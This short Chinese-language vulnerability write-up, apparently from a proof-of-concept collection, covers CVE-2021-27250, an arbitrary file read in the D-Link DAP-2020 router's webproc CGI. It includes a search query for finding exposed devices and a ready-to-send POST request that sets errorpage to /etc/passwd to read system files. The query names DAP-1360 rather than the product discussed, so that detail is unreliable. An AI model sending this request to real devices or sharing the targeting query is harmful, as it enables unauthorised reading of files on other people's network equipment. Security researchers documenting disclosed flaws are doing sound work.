


# D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## 网络测绘

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面



验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

